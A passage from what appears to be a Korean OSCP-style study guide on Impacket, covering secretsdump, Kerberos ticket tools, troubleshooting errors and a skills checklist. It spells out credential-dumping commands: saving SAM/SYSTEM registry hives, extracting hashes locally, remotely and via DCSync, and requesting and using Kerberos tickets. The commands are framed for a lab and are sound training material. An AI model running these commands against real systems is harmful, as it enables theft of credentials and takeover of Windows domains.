{ loading=lazy }

{ loading=lazy }

{ loading=lazy }

## 11. secretsdump — 서로 다른 세 가지 작업 { #secretsdump }

**A. 오프라인 SAM:** 같은 Windows 설치에서 얻은 SYSTEM과 SAM 하이브. **B. 원격 멤버 호스트:** 원격 관리자 권한 및 Remote Registry·SMB·서비스 접근 조건. **C. DCSync:** DC의 도메인 복제 권한. 워크스테이션 로컬 관리자만으로는 부족합니다.

```bash
# A: On the lab Windows host, in an elevated cmd shell:
# reg save HKLM\SAM C:\Windows\Temp\sam.save
# reg save HKLM\SYSTEM C:\Windows\Temp\system.save
# Transfer these lab artifacts to Kali, then:
impacket-secretsdump -sam loot/sam.save -system loot/system.save LOCAL
# B: Remote member-host secrets (requires suitable remote admin access):
# impacket-secretsdump "$LAB_DOMAIN/adminuser@$LAB_HOST" -outputfile loot/ms01
# C: A confirmed replication-capable account, one selected lab user:
# impacket-secretsdump "$LAB_DOMAIN/replicator@$LAB_DC_FQDN" #   -dc-ip "$LAB_DC" -just-dc-user labadmin -outputfile loot/dc-selected
```

**볼 것:** SAM 항목은 `user:RID:LM:NT:::`이며 네 번째 필드가 NT입니다. 원격 출력에는 캐시된 도메인 인증·LSA 비밀정보·Kerberos 키도 있을 수 있습니다. 서로 다른 형식이므로 전부 NT 해시처럼 쓸 수 없습니다. `-just-dc-user`는 DRSUAPI 추출 범위를 좁힐 뿐 복제 권한을 부여하지 않습니다. `LOCAL`은 로컬 파일 분석을 뜻하며 로컬 계정 인증이 아닙니다. 같은 시스템의 SAM·SYSTEM을 사용하고 텍스트 `.reg` 내보내기로 대신하지 마세요. 실습 후 하이브 사본을 정리하세요.

{ loading=lazy }

## 12. getTGT·getST·ticketConverter { #kerberos }

**일반적인 티켓 사용부터 연습하세요.** TGT는 KDC에서 서비스 티켓을 요청하는 데 사용합니다. 서비스 티켓의 대상은 `cifs/ms01.training.test` 같은 SPN입니다. DNS 이름·realm·시계·유효기간이 중요하며 티켓 발급 자체가 그룹 권한을 더하지는 않습니다.

```bash
impacket-getTGT "$LAB_DOMAIN/$LAB_USER" -dc-ip "$LAB_DC"
export KRB5CCNAME="$PWD/$LAB_USER.ccache"
impacket-smbclient -k -no-pass -dc-ip "$LAB_DC"   "$LAB_DOMAIN/$LAB_USER@$LAB_HOST_FQDN"
# Request a normal service ticket for the SAME authenticated identity:
# impacket-getST "$LAB_DOMAIN/$LAB_USER" -k -no-pass -dc-ip "$LAB_DC" #   -spn "cifs/$LAB_HOST_FQDN"
# Convert a lab ticket format, without changing its rights:
# impacket-ticketConverter learner.kirbi learner.ccache
# Inspect the output filename and select that exact cache if changing tickets:
# export KRB5CCNAME="$PWD/<actual-output-filename>.ccache"
unset KRB5CCNAME
```

`-k`는 Kerberos, `-no-pass`는 비밀번호 입력 질문 방지입니다. 캐시는 그 안의 인증 주체를 위한 자료이지 명령에 적고 싶은 임의 사용자용이 아닙니다. 서비스·SPN과 일치하는 FQDN을 사용하세요. IP만 사용하면 이름 연결이 깨지기 쉽습니다. `getST -impersonate`는 확인된 위임 관계와 계정 권한이 필요한 별도 흐름입니다. 일반 티켓 요청에 붙이는 만능 권한 상승 옵션이 아닙니다. `ticketConverter`는 파일 포맷만 바꾸며 주체·기간·권한을 바꾸지 않습니다.

{ loading=lazy }

{ loading=lazy }

{ loading=lazy }

## 13. 이 순서로 오류 해결 { #troubleshooting }

| 증상 | 먼저 볼 것 | 다음 행동 |
|---|---|---|
| `command not found`·import 오류 | Kali 접두사와 `.py`, 인터프리터·버전 | 격리된 설치 복구. 대상 설정부터 바꾸지 않음 |
| TCP 시간 초과 | `ip route get <IP>`, 포트, 피벗 세션 | 경로·리스너 복구. 비밀번호만 계속 바꾸지 않음 |
| `STATUS_LOGON_FAILURE` | 계정명, 도메인·로컬 구분, 따옴표, 해시 형식 | 수정 후 한 번 검증. 잠금 정책 확인 |
| `STATUS_ACCESS_DENIED` | 인증은 됐지만 권한 부족일 수 있음 | 공유·SCM·WMI·WinRM 권한을 따로 확인 |
| `KRB_AP_ERR_SKEW` | VM과 DC 시간 차이 | 시각을 비교하고 랩 VM 시간 동기화 |
| `KDC_ERR_S_PRINCIPAL_UNKNOWN` | 대상 FQDN·SPN·realm | 서비스 이름을 해석하고 올바른 SPN 요청 |
| `KDC_ERR_C_PRINCIPAL_UNKNOWN` | 클라이언트 계정명·realm | 주체 수정. 비밀번호 오류로 단정하지 않음 |
| 로스팅 파일이 비어 있음 | 대상 계정, 요청 옵션, LDAP/KDC 오류 | 출력을 읽고 증거 있는 다른 경로 선택 |
| WMI 연결은 됐으나 출력 없음 | SMB 445·관리자 공유·명령 경로 | 전체 경로 사용. 허용된 다른 실행 방식과 비교 |
| DRSUAPI 거절 | 복제 권한과 DC 대상 | 확인한 ACL·인증 경로 재검토. 옵션으로 권한을 만들 수 없음 |

## 14. 숙달 체크리스트 { #mastery }

- [ ] 명령을 보지 않고 인증 문자열을 설명한다.
- [ ] [루프백 실습](labs/tool-practice.md)에서 공유를 읽고 파일을 내려받아 SHA-256을 비교한다.
- [ ] NetNTLMv2 응답을 `-hashes`에 넣을 수 없는 이유를 설명한다.
- [ ] SPN 조회 후 랩 계정 하나의 TGS를 요청하고 접두사로 해시 모드를 고른다.
- [ ] AS-REP 불가 계정과 존재하지 않는 계정을 구분한다.
- [ ] OS 명령 실행 전에 SQL 인증 주체·역할을 조회한다.
- [ ] SMB 인증은 성공해도 `psexec`가 실패하는 이유를 예상한다.
- [ ] 워크스테이션 SAM과 DCSync의 대상·필요 권한을 구분한다.
- [ ] TGT 캐시와 서비스 호스트 이름을 맞추고 DNS·시각 오류 하나를 직접 진단한다.
- [ ] 대상 주체·IP·원래 위치의 proof와 재현 명령을 모의 리포트에 남긴다.

## 참고 자료 { #references }

- [Fortra Impacket 소스·설치](https://github.com/fortra/impacket)
- [0.13.1 예제 스크립트](https://github.com/fortra/impacket/tree/impacket_0_13_1/examples) — 이 예제들의 인수·소스 확인 기준
- [Kali Impacket 명령 도움말](https://www.kali.org/tools/impacket-scripts/)
- [OffSec OSCP+ Exam Guide](https://help.offsec.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide)
- [실전 종합 가이드](practical-guide.md) · [AD 흐름](active-directory.md) · [해시 형식](password-attacks.md) · [피벗팅](pivoting.md)
